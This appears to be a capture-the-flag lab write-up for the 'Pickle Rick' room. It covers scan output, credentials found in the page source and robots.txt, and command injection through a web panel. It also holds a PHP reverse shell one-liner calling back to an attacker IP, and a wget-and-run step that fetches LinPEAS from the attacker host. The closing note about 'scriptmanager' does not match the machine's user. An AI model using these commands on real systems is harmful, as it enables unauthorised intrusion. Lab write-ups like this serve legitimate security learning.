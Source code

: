 # Pickle Rick

IP - 10.10.191.16

## Scanning and Enumeration

nmap scan:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d3:e5:84:36:c0:98:a2:63:04:01:cc:75:a9:d1:94:2a (RSA)
|   256 b9:37:a1:31:ab:af:e7:a3:1d:bf:32:39:67:00:b6:6b (ECDSA)
|_  256 b9:1d:36:7c:9f:a9:19:a6:be:34:f5:7c:97:0e:18:43 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|http-title: Rick is sup4r cool
| http-methods:
|  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

dirsearch:
```
[21:38:43] 403 -   277B - /.php

[21:38:59] 200 -    2KB - /assets/

[21:38:59] 301 -   313B - /assets  ->  http://10.10.191.16/assets/

[21:39:13] 200 -    1KB - /index.html

[21:39:16] 200 -   882B - /login.php

[21:39:26] 200 -    17B - /robots.txt
```
- Viewed HTML source code (ctrl + U) on picklerick.thm website and found Username: R1ckRul3s.
- Found password in 10.10.191.16/robots.txt - Wubbalubbadubdub
- Navigate to /login.php and used username R1ckRul3s and password Wubbalubbadubdub to log in.

## Exploit
Command Panel is vulnerable and allowing to use commands to get information. I used "ls -a" to list all files including hidden files and found Sup3rS3cretPickl3Ingred.txt. I was able to get the first ingredient by running - ``` grep . -R ```

## Reverse Shell
- set Terminal to listen - ``` nc -nvlp 4444 ```
- Executed PHP reverse shell and gained access: 
```
php -r '$sock=fsockopen("10.6.41.41",4444);exec("/bin/sh -i <&3 >&3 2>&3");’
```
Cheatsheet - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Navigate to /home > ``` grep . -R ``` to get second ingredient.

## Post-Exploit (LinPEAS)
- Opened new tab in the terminal and ran - ``` python3 -m http.server 8000 ```
- ``` wget http://10.6.41.41:8000/linpeas.sh -O /tmp/linpeas.sh ```
- ``` chmod +x /tmp/linpeas.sh ```
- ``` /tmp/linpeas.sh ```
- Results from LinePEAS - User www-data may run the following commands on ip-10-10-191-16:
(ALL) NOPASSWD: ALL
> This means that you can run any command as scriptmanager, and optionally set your group to scriptmanager when doing so




